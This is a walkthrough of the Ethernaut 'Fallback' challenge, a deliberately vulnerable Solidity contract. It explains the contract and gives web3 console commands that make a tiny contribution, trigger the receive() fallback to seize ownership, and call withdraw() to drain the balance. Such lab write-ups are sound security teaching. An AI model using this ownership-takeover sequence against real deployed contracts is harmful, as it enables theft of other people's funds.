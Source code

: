## Fallback
1. Claim ownership of the contract
2. Reduce its balance to 0
  

##### Things that might help
How to send ether when interacting with an ABI
How to send ether outside of the ABI
Converting to and from wei/ether units (see help() command)
Fallback methods

#### Understanding the contract
1. State variables
```solidity
mapping(address => uint) public contributions;
address public owner;
```
- This contract has two state variables: ``contributions`` and ``owner``
- Both of these variables are public, so they should be accessible through the console
- ``contributions`` is a ``mapping`` which should associate and ``address`` to a ``uint``
- ``owner`` is an ``address``

2. Constructor
```solidity
constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
}
```
- The constructor runs once when the contract is deployed
- The ``owner`` state variable will be given the value of the address deploying the contract: ``msg.sender``
- The deploying address ``msg.sender`` is added tot he contributions mapping with a value of 1000 ether

3. Modifier
```solidity
 modifier onlyOwner() {
    require(msg.sender == owner, "caller is not the owner");
    _;
}
```
- A modifier can be applied to functions
- This modifier requires that the address currently interacting with its function is the owner

4. Functions

```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if (contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
    }
}
```
- The ``contribute()`` function is public and payable meaning anyone can access it and it can recieve ether
- The function requires that the amount of ether being sent must be less that 0.001
- This function adds the address sending the ether to the ``contributions`` state variable adding the value sent as the mapping association
- If the contributions of the sending address are greater than the contributions from the owner address, the sending address becomes the owner
    - Based on the contructor, this should mean that any address that sends over 1000 eth should become the owner

```solidity
function getContribution() public view returns (uint) {
    return contributions[msg.sender];
}
```
- The ``getContribution()`` function is a ``public``, ``view`` function that ``returns`` a uint value when called
    - ``public`` allows anyone can access that functions
    - ``view`` functions cannot change any state
    - this function will return the contributions associated with the address calling the function

```solidity
function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
}
```
- The ``withdraw()`` function is a ``public`` function with the ``onlyOwner`` modifier
    - Even thought the function is ``public``, the ``onlyOwner`` modifier dictates that the only the ``owner`` can call this function
    - this function will transfer the funds stored in the contract address to the ``owner``

```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```
- ``receive()`` is a fallback function and it exists only to receive ether
- ``external`` allows the contract to be called by other contracts or transactions
- ``payable`` declarations allow functions and addresses to recieve ether

#### Solving
After having understood the contract we can see that there are two ways to become the owner:
    1. We can send more that 1000 ether to the contract
    2. After making a contribution of less that 0.001 ether, we can send additional ether (>0) to the contract to become the owner

We can follow these steps to accomplish method 2:
    1. ``contribute()`` ether (less than 0.001) so our address is in the contributions mapping
    2. Now, if we send ether to the contract with the ``receive()`` function, our address should become the owner
    3. As the owner, we can use the ``withdraw`` function which should give us the entire balance of the contract

We can use ``web3`` in the console and it will show us a variety of methods we can use
    - For this challenge, we can use the ``toWei`` and ``sendTransaction`` methods
We can store the amount in a variable:
```js
const amount = web3.utils.toWei("0.0005", "ether")
```
We'll use .0005 to meet the <.001 requirements for ``contribute()``
```js
await contract.contribute({value: amount})
```
Next, we can send ether directly to the contract:
```js
await contract.sendTransaction({value:amount})
```
This should now make our address the owner
We can check this with:
```js
await contract.owner()
```
Our address should be returned confirming we are the owner, and we can now call ``withdraw()``

#### Summary
You know the basics of how ether goes in and out of contracts, including the usage of the fallback method.

You've also learnt about OpenZeppelin's Ownable contract, and how it can be used to restrict the usage of some methods to a privileged address.